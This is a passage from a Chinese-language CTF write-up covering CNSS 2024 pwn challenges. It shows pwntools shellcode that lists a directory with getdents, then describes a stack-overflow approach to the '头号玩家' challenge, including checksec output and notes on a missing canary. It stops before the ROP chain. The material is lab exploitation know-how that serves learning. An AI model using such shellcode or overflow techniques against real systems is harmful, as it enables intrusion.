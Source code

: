 ```sh
shellcode1 = '''
    push rbp
    mov rbp, rsp
    sub rsp, 0x200
'''
shellcode1 += shellcraft.open("./")
shellcode1 += shellcraft.getdents(3, "rsp", 0x200)
shellcode1 += shellcraft.write(1, "rsp", 0x200)
shellcode1 += '''
        leave
        ret
'''

shellcode2 = {$orw}
```
##### &emsp;&emsp;&emsp;博主写的时候由于用的wsl，不知为何wsl上pwntools的asm()很慢，导致两次shellcode间隔超过1s，flag文件名已经变了，死活过不了，后来用虚拟机直接过。
### 😎 头号玩家(🤖Mid)
```
⚠ 题目描述
隐匿在品学楼之中的幽灵，
不可观测，难以言喻

旧时，会有许多人前去寻找他，
或恐惧、或期待

话虽如此，
真正的他，或许早已被人忘却

💡 Hint
💻 题目附件
点击下载

🚩 Flag格式
cnss{meaningful_sentence}

🔨 暴打出题人
@Orchid
```
##### &emsp;&emsp;&emsp;谜语人题目，前置知识是看过头号玩家（至少第一关）<br>&emsp;&emsp;&emsp;实现逻辑比较长，这里就不贴了，简单来说就是根据程序的随机输出，做一个类似Yes or No的游戏，初始有30分，50次机会，答对一次加一分，错一次减一分。玩完之后，有一个读入字符串的机会，有多少分就可以读多少字符。<br>&emsp;&emsp;&emsp;本题依然checksec魅力时刻
```sh
root@PainTech:/home/pwn/worktable/cnss2024# checksec pwn6
[*] '/home/pwn/worktable/cnss2024/pwn6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
##### &emsp;&emsp;&emsp;显示```Canary found```，实际上根本没有。一般题目可以在IDA中去找找```__stack_chk_fail```函数，如果有就是有Canary；但本题静态链接，东西多不好找，所以动调看```rbp - 0x8```有没有Canary，发现没有。<br>
##### &emsp;&emsp;&emsp;本题的打法有两种，先说正解，也就是和头号玩家有关系的解法。
![Screenshot 2024-09-27 103245.png](https://www.helloimg.com/i/2024/09/27/66f617fc16ef9.png)
##### &emsp;&emsp;&emsp;关键点在于正着开不行要你倒着开。由于没Canary，所以要打一个栈溢出，但问题是如果全部答对，也只有80字节，这个大小只够恰好覆盖到返回地址，根本不够ROPchain（本题没有backdoor）